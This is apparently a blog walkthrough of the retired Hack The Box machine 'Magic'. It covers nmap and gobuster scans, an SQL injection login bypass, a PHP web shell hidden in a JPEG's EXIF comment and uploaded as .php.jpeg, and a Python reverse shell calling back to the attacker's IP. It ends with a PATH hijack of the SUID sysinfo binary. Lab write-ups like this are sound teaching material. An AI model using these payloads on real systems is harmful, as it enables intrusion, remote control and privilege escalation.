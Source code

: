 ```yaml
---
layout: post
title:  "HTB Magic Walkthrough"
author: nanobyte
date:   2020-08-31
description: Hack The Box writeup for Magic, Retired Linux Medium Box
tags: HTB_Walkthrough 
---
```


I began with some simple enumeration scans:

{% highlight bash linenos %}
nmap -sV -sC -p- 10.10.10.185                                                                                                                                                                               [478/478]
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 20:08 CDT
Nmap scan report for 10.10.10.185                      
Host is up (0.043s latency).                                                                                         
Not shown: 65533 closed ports                                                                                        
PORT   STATE SERVICE VERSION                                                                                         
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                    
| ssh-hostkey:                                                                                                       
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)                                                                                                                                                                             
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)                                                                                                                                                                            
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)                                                    
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                                                                                                        
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                         
|_http-title: Magic Portfolio                                                                                        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                              
                                                                                                                     
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                                                             
Nmap done: 1 IP address (1 host up) scanned in 41.57 seconds
{% endhighlight %}

{% highlight bash linenos %}
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.185 -t 30
===============================================================                                                      
Gobuster v3.0.1                                                                                                      
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                      
===============================================================                                                                                                                                                                            
[+] Url:            http://10.10.10.185                                                                                                                                                                                                    
[+] Threads:        30                                                                                                                                                                                                                     
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt                                                                                                                                                            
[+] Status codes:   200,204,301,302,307,401,403                                                                                                                                                                                            
[+] User Agent:     gobuster/3.0.1                                                                                   
[+] Timeout:        10s                                                                                                                                                                                                                    
===============================================================                                                                                                                                                                            
2020/05/26 20:10:17 Starting gobuster                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
/assets (Status: 301)                                                                                                                                                                                                                      
/images (Status: 301)                                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
2020/05/26 20:12:26 Finished                                                                                                                                                                                                               
===============================================================
{% endhighlight %}

I was able to identify SQL Injection on a login page, at http://10.10.10.185/login.php, using the following in the username and password fields:

{% highlight bash linenos %}
Username: ' or 1=1 --
Password: ' or 1=1 --
{% endhighlight %}

I tried to upload a PHP reverse shell, but got an error back asking `What are you trying to do here!?` so obviously it is blocked. By changing .php to .jpg resulted in the same error, so moved on. I downloaded an image from the internet, named it index.jpeg and used exfiltool to make a malicious image file:

{% highlight bash linenos %}
exiftool -Comment='<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>' index.jpeg
{% endhighlight %}

Once I uploaded, I used BURP to intercept the image file, and sent to repeater. Once in repeater, I changed the filename to index.php.jpeg and sent the POST forward:

<img src="/images/posts/magic_walkthrough/burp_repeater.png" alt="burp_repeater">

Once the malicious image was uploaded, I went back to the home page that was full of images, and I found that images were uploaded to `/images/uploads`. With this, I went to my image at `10.10.10.186/images/uploads/index.php.jpeg` and could then run commands:


{% highlight bash linenos %}
http://10.10.10.185/images/uploads/index.php.jpeg?cmd=ls
{% endhighlight %}

Then, I got to work on a reverse shell! There were many shells that would not connect back. Eventually, I found python3 in `/usr/bin` and used a python reverse shell using my web shell:

{% highlight bash linenos %}
/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.64",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
http://10.10.10.185/images/uploads/index.php.jpeg?cmd=ls
{% endhighlight %}

And I got a reverse shell back:

<center><img src="/images/posts/magic_walkthrough/shell.png" alt="shell"></center>

I then began enumerating the `/var/www/Magic directory`, working my way down. Eventually I came across a `bk.sql` file, that had hardcoded credentials:

<center><img src="/images/posts/magic_walkthrough/bk-sql.png" alt="bk-sql"></center>

It did not work for root, but there is another user on the system, `theseus`. I was able to log right in as that user:

<center><img src="/images/posts/magic_walkthrough/theseus.png" alt="theseus"></center>

And I owned user:

{% highlight bash linenos %}
cat /home/theseus/user.txt
xxxxxxxxxxxxxxxxxxxxff70c41c8b037eaab
{% endhighlight %}

While enumerating for root, I found that the `sysinfo` binary had SUID set:

{% highlight bash linenos %}
find / -perm -u=s -type f 2>/dev/null
...
/bin/sysinfo
...
{% endhighlight %}

Looking on the internet, there are a lot of MagniComp vulnerabilities that appeared for this binary. Ultimately, this was a combination of two attacks to get root. First, was a PATH injection. I had to set a path, in this case `/tmp`, into the `$PATH` variable for a malicious binary to run:

<center><img src="/images/posts/magic_walkthrough/path-injection.png" alt="path-injection"></center>

And now that we have our path set, let's make the malicious binary. When sysinfo runs, it calls lshw to look at the hardware on the system. Make a malicious lshw file:

{% highlight bash linenos %}
echo "/bin/cat /root/root.txt" > lshw
chmod 777 lshw
{% endhighlight %}

Then once sysinfo is run, you will have root!

{% highlight bash linenos %}
cat /root/root.txt
xxxxxxxxxxxxxxxxxx051a7763c65c29a26f4
{% endhighlight %}
